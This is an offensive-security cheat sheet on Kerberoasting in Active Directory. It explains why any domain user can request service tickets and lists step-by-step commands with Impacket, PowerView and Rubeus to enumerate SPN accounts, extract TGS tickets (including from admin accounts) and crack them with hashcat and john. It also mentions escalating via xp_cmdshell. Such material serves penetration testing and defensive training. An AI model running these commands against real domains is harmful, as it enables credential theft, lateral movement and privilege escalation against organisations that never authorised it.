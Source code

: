 # Kerberoasting

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Kerberoasting**</mark> is a <mark style="color:purple;">**lateral movement/privilege escalation technique**</mark> in Active Directory environments. This attack targets <mark style="color:red;">**Service Principal Name (SPN)**</mark> accounts.&#x20;

Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as <mark style="color:green;">**`NT AUTHORITY\LOCAL SERVICE`**</mark>.&#x20;

> <mark style="color:orange;">**Any domain user can request a Kerberos ticket for any service account in the same domain.**</mark>&#x20;

It works because in Kerberos protocol if you have TGT, KDC implies you are honest domain member, so it can give you ST (which is encrypted with Service Account's password). But then if you would try to access service, Service will check UAC and ACL, and deny you're access. The vulnerability is that any user can ask for TGS, and because of it we can.

***

1. **Look for juicy Kerberoastable account with SPN's to use.**
2. **Extract TGS Tickets.**
3. **Crack it and get a creds (You can't use hash for PtH, only crack it).**

***

This is also possible across forest trusts if authentication is permitted across the trust boundary.&#x20;

If the password for a domain SQL Server service account is cracked, you are likely to find yourself as a local admin on multiple servers, if not Domain Admin. Even if cracking a ticket obtained via a Kerberoasting attack gives a low-privilege user account, we can use it to craft service tickets for the service specified in the SPN. For example, if the SPN is set to MSSQL/SRV01, we can access the MSSQL service as sysadmin, enable the xp\_cmdshell extended procedure and gain code execution on the target SQL server.

### <mark style="color:blue;">Requirements</mark>

We could execute Kerberoasting from various setups like (<mark style="color:orange;">**shell / creds are must-have**</mark>):

* Non-domain Linux machine (<mark style="color:green;">**Impacket, netexec, hashcat, john, etc**</mark>).
* Non-domain Windows machine (<mark style="color:yellow;">**using runas /netonly**</mark>).
* Domain-joined Windows machine (<mark style="color:green;">**PowerView, Rubeus, Mimikatz, setspn.exe, etc**</mark>)

## <mark style="color:yellow;">LINUX</mark>

### <mark style="color:blue;">GetUserSPNs</mark>

> <mark style="color:yellow;">**Use**</mark> <mark style="color:green;">`-outputfile`</mark> <mark style="color:yellow;">**parameter for output into a file**</mark>

#### List SPN Accounts

```bash
impacket-GetUserSPNs -dc-ip 13.13.13.13 MILITECH.LOCAL/sol.reed
```

#### Request all TGS Tickets

```bash
impacket-GetUserSPNs -dc-ip 13.13.13.13 MILITECH.LOCAL/sol.reed -request
```

#### Target Specific User

```bash
impacket-GetUserSPNs -dc-ip 13.13.13.13 MILITECH.LOCAL/sol.reed -request-user songbird
```

> With <mark style="color:green;">`-target-domain`</mark> parameter we can do Cross-Forest Kerberoasting

## <mark style="color:yellow;">WINDOWS</mark>

### <mark style="color:blue;">PowerView</mark>

#### Extract TGS Tickets

```powershell
PS C:\> Import-Module .\PowerView.ps1
PS C:\> Get-DomainUser * -spn | select samaccountname
```

#### Target Specific User

```powershell
PS C:\> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Extract all Tickets to CSV

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\crack_tgs.csv -NoTypeInformation
```

### <mark style="color:blue;">Rubeus</mark>

#### Stats

```powershell
PS C:\> .\Rubeus.exe kerberoast /stats
```

#### Target High-Value Accounts

```powershell
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Target Specific User

```powershell
PS C:\> .\Rubeus.exe kerberoast /user:testuser /nowrap # For RC4 only, use /tgtdeleg
```

> With <mark style="color:green;">`-Domain`</mark> parameter we can do Cross-Forest Kerberoasting

## <mark style="color:yellow;">CRACKING</mark>

> <mark style="color:orange;">**IF YOU ARE ON WINDOWS SERVER 2016 OR EARLIER SPECIFY HASH IN RC4 ALGORITHM BECAUSE IT'S EASIER TO CRACK. IF YOU ARE ABOVE 2016's THEN YOU WILL BE DEALING WITH AES ENCRYPTION.**</mark>

> <mark style="color:orange;">**IF HASH BEGINS WITH**</mark> <mark style="color:green;">`$krb5tgs$23$*`</mark> <mark style="color:orange;">**THIS IS RC4 HASH**</mark>&#x20;

#### Checking Supported Encryption Types

```powershell
PS C:\> Get-DomainUser testuser -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

### <mark style="color:blue;">Hashcat</mark>

#### 1. Convert kirbi to Crackable format

```bash
python2.7 kirbi2john.py sqldev.kirbi > crack_tgs_unprocessed
```

#### 2. Modifying file for Hashcat

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_tgs_unprocessed > crack_tgs
```

#### 3. Run Hashcat

```bash
hashcat -m 13100 crack_tgs /usr/share/wordlists/rockyou.txt # 13100 mode is for RC4
```

### <mark style="color:blue;">John</mark>

#### 1. Convert kirbi to Crackable format

```bash
python2.7 kirbi2john.py sqldev.kirbi > crack_tgs
```

#### 2. Run John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack_tgs
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/kerberoast" %}

{% embed url="https://www.youtube.com/watch?v=PUyhlN-E5MU" %}
